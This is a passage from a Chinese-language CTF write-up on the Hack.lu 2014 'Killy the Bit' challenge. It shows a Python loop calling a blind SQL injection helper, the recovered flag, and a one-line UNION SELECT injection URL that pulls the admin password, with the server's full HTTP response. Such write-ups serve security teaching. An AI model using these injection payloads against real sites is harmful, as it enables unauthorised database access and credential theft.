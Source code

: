 ```

if __name__ == '__main__':
    ans = ''
    for i in range(1,65):
        ans += binary_sqli(35, 127, i)
    print ans

```

拿到了 flag：

```
flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits} 
```

更优雅的一句话 get flag：

```
DeAdCaT___$ http https://wildwildweb.fluxfingers.net:1424/?name=adm%27%20UNION%20select%20passwd,2%20from%20user%20where%20name=%27admin%27%20LIMIT%201,2%23&submit=Generate#
[1] 49939
DeAdCaT-2:longest-common-prefix DeAdCaT___$ HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Tue, 28 Oct 2014 08:31:24 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: nginx
Set-Cookie: PHPSESSID=qk9aod6reqkf8f2c17qhdo1dl2; path=/
Transfer-Encoding: chunked
X-Powered-By: PHP/5.5.9-1ubuntu4.4

<html><head><style type='text/css'><!-- body {background-image: url(bg.jpg);background-repeat: no-repeat;height: Percent;width: Percent; background-size: cover;}//--></style> <title>Royal Bank of Fluxembourg</title></head></html><!--
Single cows are waiting for you

_____________________
|I'm a hot single cow!| 
--------------------- 
\   ^__^  
\  (oo)\_______ 
(__)\       )\/\ 
||----w | 
||     || 

-->We couldn't find your username, but it sounds like this user:<br>flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}<br>

```
